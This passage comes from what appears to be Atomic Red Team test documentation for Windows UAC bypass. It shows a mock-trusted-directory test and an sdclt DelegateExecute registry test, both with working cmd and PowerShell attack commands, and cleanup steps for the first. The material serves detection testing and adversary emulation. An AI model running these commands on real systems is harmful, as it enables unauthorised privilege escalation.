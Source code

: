 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir "\\?\C:\Windows \System32\"
copy "#{executable_binary}" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
```

#### Cleanup Commands:
```cmd
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
del "c:\testbypass.exe" >nul 2>nul
```





<br/>
<br/>

## Atomic Test #7 - Bypass UAC using sdclt DelegateExecute
Bypasses User Account Control using a fileless method, registry only.
Upon successful execution, sdclt.exe will spawn cmd.exe to spawn notepad.exe
[Reference - sevagas.com](http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass)
Adapted from [MITRE ATT&CK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/stepFourteen_bypassUAC.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 3be891eb-4608-4173-87e8-78b494c029b7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | Command to execute | string | cmd.exe /c notepad.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value '#{command_to_execute}'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath $env:windir\system32\sdclt.exe
Start-Sleep -s 3
```
